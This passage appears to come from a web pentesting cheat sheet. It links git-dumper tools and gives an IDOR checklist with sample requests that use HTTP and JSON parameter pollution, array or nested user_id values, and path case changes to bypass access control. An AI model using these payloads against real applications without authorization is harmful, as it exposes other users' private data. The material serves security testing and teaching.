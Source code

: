 https://github.com/arthaud/git-dumper

### Tools

https://github.com/internetwache/GitTools

## Broken Access Control - IDOR (Insecure Direct Object References)

1. Search listing of Id's in requests and in case you don't find create at least two accounts and analysis requests involving ID's
2. Identify access controls in the application
3. Change the request method (GET, POST, PUT, DELETE, PATCH…)
4. search old versions of API's /api/v1/ /api/v2/ /api/v3/
5. Try sending a (*) instead of the ID, especially at search points
6. Brute-force IDs depending on context and predictability

### IDOR + Parameter Pollution

### HTTP Parameter Pollution

```
GET /api/v1/messages?id=<Another_User_ID> # unauthourized
GET /api/v1/messages?id=<You_User_ID>&id=<Another_User_ID> # authorized
GET /api/v1/messages?id[]=<Your_User_ID>&id[]=<Another_User_ID>

```

### Json Parameter Pollution

```
POST /api/v1/messages
{"user_id":<You_user_id>,"user_id":<Anoher_User_id>}

```

- > with a JSON Object

```
POST /api/v1/messages
{"user_id":{"user_id":<Anoher_User_id>}}

```

- > with array

```
{"user_id":001} #Unauthorized
{"user_id":[001]} #Authorized

```

### Random Case

GET /admin/profile #Unauthorized
GET /ADMIN/profile #Authorized
